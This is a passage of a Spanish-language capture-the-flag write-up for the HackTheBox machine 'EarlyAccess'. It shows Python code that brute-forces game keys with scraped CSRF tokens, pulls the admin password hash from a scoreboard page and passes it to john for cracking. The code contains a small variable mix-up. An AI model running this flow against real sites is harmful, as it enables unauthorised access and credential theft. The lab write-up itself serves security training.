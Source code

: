 ```python
		total_keys.append(key)

	try_keys(total_keys)

def try_keys(keys):

	key_verify_url = "https://earlyaccess.htb/key/add"

	cont = 1

	for key in keys:

		url_token = "https://earlyaccess.htb/login"

		r = s.get(url_key, verify=False)

		token = re.findall('name="_token" value="(.*?)"',r.text)[0]

		data_post = {
			'_token': token,
			'key': key
		}

		r = s.post(key_verify_url, verify=False, data=data_post)

		if "Game-key is invalid!" not in r.text:
			break

		cont += 1
```

Seguido de esto, con la función **GetPassAdmin** accede al subdominio utilizando de nuevo el **session** para que la sesión no cambie, y así envía una petición por GET para crear una puntuación y así poder acceder al marcado y obtener el **hash** del usuario **admin**, con la cual mediante la función **crack_hash** meterla en un archivo, y ejecutando la herramienta **john** rompe del hash para obtener la contraseña y guardarla en la variable **pass_admin**.

```python
pass_admin = GetPassAdmin()
```

```python
def GetPassAdmin():

	url_game_login = "http://game.earlyaccess.htb/actions/login.php"

	url_set_score = "http://game.earlyaccess.htb/actions/score.php?score=0"

	url_scoreboard = "http://game.earlyaccess.htb/scoreboard.php"


	data_post = {
		'email': email,
		'password': password
	}

	r = s.post(url_game_login, data=data_post, verify=False)

	r = s.get(url_set_score, verify=False)

	r = s.get(url_scoreboard, verify=False)

	hash = re.findall('<tbody><tr><td>(.*?)</td>', r.text)[0]

	return crack_hash(hash)
```